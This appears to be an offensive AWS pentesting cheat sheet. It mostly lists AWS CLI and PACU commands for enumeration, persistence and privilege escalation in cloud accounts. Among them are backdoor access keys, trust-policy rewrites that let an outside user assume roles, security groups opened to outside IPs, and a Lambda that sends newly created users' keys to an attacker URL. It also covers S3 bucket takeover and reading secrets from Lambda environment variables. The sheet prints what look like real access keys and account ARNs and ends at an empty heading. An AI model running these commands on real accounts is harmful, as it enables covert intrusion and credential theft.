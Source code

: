 ## General
### Access key and Secret key:
```
aws configure
aws configure --profile Test
aws sts get-caller-identity --profile Test
```

### PACU
```
import_keys Test
ls
whoami
run iam__enum_permissions
run aws__enum_spend
```

## Maintain persistence
### Identify user with 0 or 1 access key (need iam:CreateAccessKey)
```
aws iam list-users --profile Test
aws iam list-access-keys --user-name Sarah --profile Test
aws iam create-access-key --user-name Sarah --profile Test
# Or run PACU command
run iam__backdoor_users_keys
```

### User with iam update-assume-role-policy
Identify non-service-link role
```
aws iam a list-roles --profile Test
```
Change the trust-policy
```
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Service": "ec2.amazonaws.com",
        "AWS": "arn:aws:iam::593820606366:user/vitquay-nonroot"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
```
Update and assume role
```
aws iam update-assume-role-policy --role-name test-role --policy-document file://trust-policy.json --profile Test
aws sts assume-role --role-arn arn:aws:iam::748384263101:role/test-role --role-session-name PersistenceTest --profile vitquaynonroot
# Or just use PACU
run iam__backdoor_assume_role --role-names Admin --user-arns arn:aws:iam::012345678912:root
```
Change .aws/credentials file
```
[PersistenceTest2]
aws_access_key_id = ASIA24PZNTO6525L54XY
aws_secret_access_key = SVbH0B5VKQU9VHUJKSKfqdZZcIThAOfkOgjyH3Cm
aws_session_token = <SHORTENED>
```

### Allow port in EC2
```
aws ec2 describe-instances --profile Test
aws ec2 describe-security-groups --group-ids sg-0315cp741b51fr4d0 --profile Test
aws ec2 authorize-security-group-ingress --group-id sg-0315cp741b51fr4d0 --protocol tcp --port 27017-27018 --cidr 1.1.1.1/32
# Or using PACU
run ec2__backdoor_ec2_sec_groups --ip 1.1.1.1/32 --port-range 27017-27018 --protocol tcp --groups corp@us-west-2
```

### Lambda to send user keys when created
```
run lambda__backdoor_new_users --exfil-url http://attacker-server.com/
run lambda__backdoor_new_users --cleanup
run lambda__backdoor_new_sec_groups
run lambda__backdoor_new_roles
```

## EC2
10.0.1.1 is reserved for the gateway of the subnet, 10.0.1.2 is
reserved for AWS DNS, and 10.0.1.3 is reserved for any future use by
AWS.

Look for hardcoded user data
```
run ec2__enum
run ec2__download_userdata
```
## S3
### awscli commands
```
aws s3 ls s3://kirit-bucket
aws s3 cp abc.txt s3://kirit-bucket/new/abc.txt
aws s3 rm s3://kirit-bucket/new/abc.txt --acl public-read
```

### NoSuchBucket message
- Check CNAME record for the bucket name
- Create S3 bucket with the same name and region
- Deploy malicious content

## Lambda
### Read/Run permission:Exploit function to exfil data
Check function, environment variable
```
aws lambda list-functions --profile LambdaReadOnlyTester
aws lambda get-function --function-name VulnerableFunction --profile LambdaReadOnlyTester  
```
Check Event
```
aws lambda list-event-source-mappings --function-name VulnerableFunction --profile LambdaReadOnlyTester
aws lambda get-policy --function-name VulnerableFunction --profile LambdaReadOnlyTester
```
The keys are in the environment variable
Tips: If you have "lambda:InvokeFunction" you can trigger custom event and specify the exact payload.

### Read&Write Permission: Privesc

